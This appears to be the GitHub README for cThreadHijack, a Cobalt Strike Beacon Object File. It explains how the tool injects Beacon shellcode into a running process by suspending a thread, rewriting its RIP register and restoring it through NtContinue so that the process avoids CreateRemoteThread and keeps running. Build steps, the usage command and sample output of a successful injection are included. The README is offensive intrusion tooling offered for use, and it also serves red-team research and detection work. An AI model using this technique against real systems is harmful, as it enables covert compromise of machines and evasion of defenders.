 ## cThreadHijack
```
     ___________.__                              .______ ___ .__     __               __    
  ___\__    ___/|  |_________   ____ _____     __| _/   |   \|__|   |__|____    ____ |  | __
_/ ___\|    |   |  |  \_  __ \_/ __ \\__  \   / __ /    ~    \  |   |  \__  \ _/ ___\|  |/ /
\  \___|    |   |   Y  \  | \/\  ___/ / __ \_/ /_/ \    Y    /  |   |  |/ __ \\  \___|    < 
 \___  >____|   |___|  /__|    \___  >____  /\____ |\___|_  /|__/\__|  (____  /\___  >__|_ \
     \/              \/            \/     \/      \/      \/    \______|    \/     \/     \/
```
Beacon Object File (BOF) for remote process injection, via thread hijacking, without spawning a remote thread. Accompanying blog can be found [here](https://connormcgarr.github.io/thread-hijacking/). cThreadHijack works by injecting raw Beacon shellcode, generated via a user-supplied listener argument, into a remote process, defined by the user-supplied PID argument, via `VirtualAllocEx` and `WriteProcessMemory`. Then, instead of spawning a new remote thread via `CreateRemoteThread` or other APIs, cThreadHijack identifies the first enumerated thread in the target process, suspends it, and retrieves the contents of the thread's CPU state via a `CONTEXT` structure. Then, the RIP register member of the `CONTEXT` structure (on 64-bit systems) is manipulated to point to the address of the aforementioned remote Payload. Prior to execution, a routine is added to wrap the Beacon shellcode inside of a call to `CreateThread` - giving Beacon its own thread to work in, with this thread being locally spawned, versus being spawned remotely. The `CreateThread` routine is also wrapped in an `NtContinue` function call routine, allowing restoration of the previously hijacked thread without crashing the remote process. Beacon payloads for cThreadHijack are generated with a 'thread' exit function, allowing process continuation after the Beacon has been exited. Beacon listener names, when containing a space, must be placed in quotes.

### BUILDING: ###
1. On a Windows machine, open a `x64 Native Tools Command Prompt for VS` prompt. This can be done by pressing the Windows key and typing `x64 Native Tools` and selecting the prompt.
2. Change directory to `C:\path\to\cThreadHijack`.
3. `nmake -f Makefile.msvc build`
4. Load cThreadHijack.cna through the Cobalt Strike `Script Console` with `load /path/to/cThreadHijack.cna`

### USAGE: ###
`cThreadHijack PID LISTENER_NAME`

```
beacon> cThreadHijack 7340 TESTING
[+] host called home, sent: 268433 bytes
[+] received output:
[+] Target process PID: 7340

[+] received output:
[+] Opened a handle to PID 7340

[+] received output:
[+] Found a thread in the target process! Thread ID: 10212

[+] received output:
[+] Suspending the targeted thread...

[+] received output:
[+] Wrote Beacon shellcode to the remote process!

[+] received output:
[+] Virtual memory for CreateThread and NtContinue routines allocated at 0x201f4ab0000 inside of the remote process!

[+] received output:
[+] Size of NtContinue routine: 64 bytes
[+] Size of CONTEXT structure: 1232 bytes
[+] Size of stack alignment routine: 4
[+] Size of CreateThread routine: 64
[+] Size of shellcode: 261632 bytes

[+] received output:
[+] Wrote payload to buffer to previously allocated buffer inside of!

[+] received output:
[+] Current RIP: 0x7ffa55df69a4

[+] received output:
[+] Successfully pointed the target thread's RIP register to the shellcode!

[+] received output:
[+] Current RIP: 0x201f4ab0000

[+] received output:
[+] Resuming the thread! Please wait a few moments for the Beacon payload to execute...
```

